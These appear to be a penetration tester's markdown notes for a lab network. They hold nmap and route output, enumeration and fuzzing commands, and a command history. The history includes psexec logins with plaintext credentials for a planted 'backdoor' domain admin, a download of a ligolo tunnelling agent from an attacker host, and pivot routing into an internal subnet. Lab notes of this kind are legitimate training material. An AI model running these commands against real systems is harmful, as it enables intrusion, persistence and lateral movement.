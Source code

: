 # Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- C:\Users\Administrator\Desktop\proof.txt

# Accounts
### username / password
` `   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 10.10.164.13 --top-ports 1000`
```
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
80/tcp   open  http          Microsoft IIS httpd 10.0
110/tcp  open  pop3          hMailServer pop3d
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp  open  imap          hMailServer imapd
445/tcp  open  microsoft-ds?
587/tcp  open  smtp          hMailServer smtpd
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: mail.skylark.com; OS: Windows; CPE: cpe:/o:microsoft:windows

```
`sudo nmap -A -T4 -p- <IP>`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  1    331 ::1/128                  On-link
  1    331 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None


ifIndex DestinationPrefix                              NextHop                                  RouteMetric ifMetric Po
                                                                                                                     li
                                                                                                                     cy
                                                                                                                     St
                                                                                                                     or
                                                                                                                     e 
------- -----------------                              -------                                  ----------- -------- --
10      255.255.255.255/32                             0.0.0.0                                          256 15       Ac
7       255.255.255.255/32                             0.0.0.0                                          256 15       Ac
1       255.255.255.255/32                             0.0.0.0                                          256 75       Ac
10      224.0.0.0/4                                    0.0.0.0                                          256 15       Ac
7       224.0.0.0/4                                    0.0.0.0                                          256 15       Ac
1       224.0.0.0/4                                    0.0.0.0                                          256 75       Ac
1       127.255.255.255/32                             0.0.0.0                                          256 75       Ac
1       127.0.0.1/32                                   0.0.0.0                                          256 75       Ac
1       127.0.0.0/8                                    0.0.0.0                                          256 75       Ac
10      10.20.164.255/32                               0.0.0.0                                          256 15       Ac
10      10.20.164.254/32                               0.0.0.0                                          256 15       Ac
10      10.20.164.0/24                                 0.0.0.0                                          256 15       Ac
7       10.10.164.255/32                               0.0.0.0                                          256 15       Ac
7       10.10.164.13/32                                0.0.0.0                                          256 15       Ac
7       10.10.164.0/24                                 0.0.0.0                                          256 15       Ac
7       0.0.0.0/0                                      10.10.164.254                                      1 15       Ac

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
//create domain admin on dc
impacket-psexec SKYLARK/backdoor:'P@ssw0rd!'@10.10.164.13
impacket-psexec SKYLARK.com/Administrator:'E2koUInnHx5_nrAjBouE'@10.10.164.13
//drops in as system
Get-NetRoute -AddressFamily IPv4

// set up routing to 10.20...
// // on .13
// Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters" -Name IPEnableRouter -Value 1
// Restart-Service RemoteAccess
// // on kali
// sudo ip route add 10.20.164.0/24 via 10.10.164.13 dev perfectultimatu

// drop agent to tunnel deeper
Invoke-WebRequest http://192.168.45.186/ligolo/agent.exe -OutFile agent.exe -UseBasicParsing

//with agent running on 192.168.204.221

// sudo ip tuntap add user $(whoami) mode tun ligolo2

// sudo ip link set ligolo2 up

// #Attach back to running Ligolo proxy tmux session

// tmux a -t Ligolo

// # Add a new listener
listener_add --addr 0.0.0.0:4445 --to 127.0.0.1:4445

// #Verify listeners
// listener_list
.\agent.exe -connect 192.168.204.221:11602 -ignore-cert

session
// 2 (mail)

// sudo ip addr add 10.20.164.200/24 dev amazingbloodhou
// sudo ip link set amazingbloodhou up
// sudo ip route add 10.20.164.0/24 via 10.10.164.13 dev amazingbloodhou

// sudo ip route add 10.20.164.0/24 dev amazingbloodhou

// i dunno play with autoroute and stuff



```
